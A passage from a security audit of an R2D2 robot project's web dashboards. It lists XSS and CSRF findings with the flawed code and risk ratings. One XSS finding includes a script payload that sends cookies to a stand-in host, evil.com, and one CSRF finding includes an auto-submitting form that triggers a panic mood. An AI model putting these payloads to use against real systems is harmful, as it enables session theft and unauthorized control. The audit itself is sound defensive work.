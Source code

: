 #### XSS-4: Lines 3042-3058 - Character Detection Display
```javascript
charactersGrid.innerHTML = characters.map(character => `
    <div class="character-card" style="...">
        <div class="character-name">${character.name}</div>
        <div class="character-confidence">${Math.round(character.confidence * 100)}%</div>
        <div class="character-reaction">${character.reaction || 'Neutral'}</div>
    </div>
`).join('');
```
**Risk:** CRITICAL - `character.name` and `character.reaction` come from vision system (untrusted)
**Vulnerability:** Attacker can inject malicious HTML via spoofed character detection
**Attack Vector:** `character.name = "<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>"`

---

## 2. CSRF (Cross-Site Request Forgery) Vulnerabilities

### File: r2d2_wcb_mood_dashboard.html

#### CSRF-1: Line 660-664 - Mood Execution Endpoint
```javascript
const response = await fetch(`${WCB_API_URL}/api/wcb/mood/execute`, {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({mood_id: moodId, priority: priority})
});
```
**Risk:** HIGH - No CSRF token validation
**Vulnerability:** Attacker can trigger R2D2 mood execution from malicious website
**Attack Vector:**
```html
<form action="http://localhost:8770/api/wcb/mood/execute" method="POST">
    <input name="mood_id" value="27"><!-- Emergency Panic -->
    <input name="priority" value="10">
</form>
<script>document.forms[0].submit();</script>
```

#### CSRF-2: Line 691-693 - Mood Stop Endpoint
```javascript
const response = await fetch(`${WCB_API_URL}/api/wcb/mood/stop`, {
    method: 'POST'
});
```
**Risk:** MEDIUM - Can stop current R2D2 behavior
**Vulnerability:** Attacker can stop R2D2 operations remotely

#### CSRF-3: All POST Endpoints in r2d2_enhanced_dashboard.html
**Risk:** MEDIUM - Multiple behavior control endpoints exposed
**Count:** Estimated 5-10 POST endpoints without CSRF protection

---